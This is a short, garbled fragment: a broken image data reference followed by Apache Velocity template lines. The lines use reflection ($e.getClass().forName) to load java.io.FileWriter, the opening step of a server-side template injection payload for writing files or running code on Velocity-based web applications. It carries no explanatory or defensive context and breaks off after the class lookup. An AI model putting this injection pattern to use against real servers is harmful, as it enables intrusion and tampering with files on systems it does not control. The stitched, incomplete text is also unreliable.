 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$monkey
